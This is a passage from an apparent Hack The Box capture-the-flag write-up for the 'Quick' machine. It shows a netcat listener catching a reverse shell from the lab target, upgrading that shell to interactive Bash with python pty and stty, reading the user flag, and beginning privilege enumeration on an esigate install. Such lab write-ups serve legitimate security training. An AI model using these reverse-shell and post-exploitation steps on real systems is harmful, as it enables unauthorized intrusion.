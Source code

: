 All of my files were uploaded successfully...

```text
zweilos@kalimaa:~/htb/quick$ nc -lvnp 13371
listening on [any] 13371 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 39638
whoami && hostname
sam
quick
which python                   
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
sam@quick:~$ ^Z
[1]+  Stopped                 nc -lvnp 13371
zweilos@kali:~/htb/quick$ stty raw -echo
zweilos@kali:~/htb/quick$ nc -lvnp 13371

sam@quick:~$ export TERM=xterm-256color
```

And... I was in.  I received a limited shell at my waiting listener that I quickly upgraded to a fully interactive Bash shell using python.

## User.txt

The first thing to do after gaining access was to claim my proof.

```text
sam@quick:~$ cat user.txt 
b57f59cafe91c035dc504c4d8158bd59
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `sam`

The first thing I do after gaining an account on a machine is to find out what kind of privileges are available by using `sudo -l`.  Unfortunately there was nothing I could run without the password.

```text
sam@quick:~/esigate-distribution-5.2$ ls -la
total 20
drwxr-xr-x  5 sam sam 4096 Mar 20 03:01 .
drwxr-xr-x  6 sam sam 4096 Aug 15 16:44 ..
drwxr-xr-x  3 sam sam 4096 Aug 15 16:41 apps
drwxr-xr-x  2 sam sam 4096 Oct 11  2017 lib
drwxr-xr-x 18 sam sam 4096 Oct 11  2017 src

sam@quick:~/esigate-distribution-5.2$ ls -la apps/
total 9492
drwxr-xr-x 3 sam sam    4096 Aug 15 15:33 .
drwxr-xr-x 5 sam sam    4096 Mar 20 03:01 ..
-rw-r--r-- 1 sam sam      63 Mar 20 03:01 esigate.properties
-rw-r--r-- 1 sam sam 6700842 Oct 11  2017 esigate-server.jar
-rw-r--r-- 1 sam sam 3000503 Oct 11  2017 esigate-war.war
drwxrwxr-x 3 sam sam    4096 Aug 15 15:33 work


sam@quick:~/esigate-distribution-5.2$ ls -la lib/
total 2792
drwxr-xr-x 2 sam sam   4096 Oct 11  2017 .
drwxr-xr-x 5 sam sam   4096 Mar 20 03:01 ..
-rw-r--r-- 1 sam sam 263965 Mar 10  2016 commons-codec-1.9.jar
-rw-r--r-- 1 sam sam 159509 Mar 11  2011 commons-io-2.0.1.jar
-rw-r--r-- 1 sam sam 412739 Jan 19  2016 commons-lang3-3.3.2.jar
-rw-r--r-- 1 sam sam   4981 Oct 11  2017 esigate-cas-5.2.jar
```